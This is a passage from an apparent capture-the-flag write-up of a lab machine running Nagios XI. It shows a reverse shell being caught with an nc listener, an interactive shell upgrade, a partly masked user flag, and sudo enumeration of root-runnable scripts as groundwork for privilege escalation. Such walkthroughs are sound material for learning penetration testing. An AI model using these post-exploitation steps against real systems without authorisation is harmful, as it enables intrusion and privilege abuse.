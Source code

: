 I’ll click it (and the next button in the popup), and it hangs, but there’s a
shell at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.248 53976
    bash: cannot set terminal process group (61550): Inappropriate ioctl for device
    bash: no job control in this shell
    nagios@monitored:~$
    

I’ll upgrade my shell using the [standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    nagios@monitored:~$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    nagios@monitored:~$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    nagios@monitored:~$ 
    

And grab the user flag:

    
    
    nagios@monitored:~$ cat user.txt
    a81be4e9************************
    

## Shell as root

### Enumeration

#### sudo

`sudo -l` shows that the nagios user has 21 commands they can run as root:

    
    
    nagios@monitored:~$ sudo -l 
    Matching Defaults entries for nagios on localhost:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
    User nagios may run the following commands on localhost:
        (root) NOPASSWD: /etc/init.d/nagios start
        (root) NOPASSWD: /etc/init.d/nagios stop
        (root) NOPASSWD: /etc/init.d/nagios restart
        (root) NOPASSWD: /etc/init.d/nagios reload
        (root) NOPASSWD: /etc/init.d/nagios status
        (root) NOPASSWD: /etc/init.d/nagios checkconfig
        (root) NOPASSWD: /etc/init.d/npcd start
        (root) NOPASSWD: /etc/init.d/npcd stop
        (root) NOPASSWD: /etc/init.d/npcd restart
        (root) NOPASSWD: /etc/init.d/npcd reload
        (root) NOPASSWD: /etc/init.d/npcd status
        (root) NOPASSWD: /usr/bin/php
            /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
        (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
        (root) NOPASSWD: /usr/bin/php
            /usr/local/nagiosxi/scripts/migrate/migrate.php *